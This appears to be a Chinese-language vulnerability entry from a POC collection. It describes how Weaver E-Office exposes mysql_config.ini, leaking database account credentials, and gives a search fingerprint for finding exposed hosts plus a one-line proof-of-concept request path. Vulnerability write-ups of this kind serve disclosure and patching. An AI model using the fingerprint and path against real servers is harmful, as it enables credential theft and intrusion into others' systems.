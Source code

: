 # 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

<a-checkbox checked>泛微 E-Office</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628480634885-fb632cc0-9146-482e-80f3-b37c3e9b5990.png)

验证POC

```php
/mysql_config.ini
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628480658765-2ba02ffc-962a-48ac-a708-26bfaddf8182.png)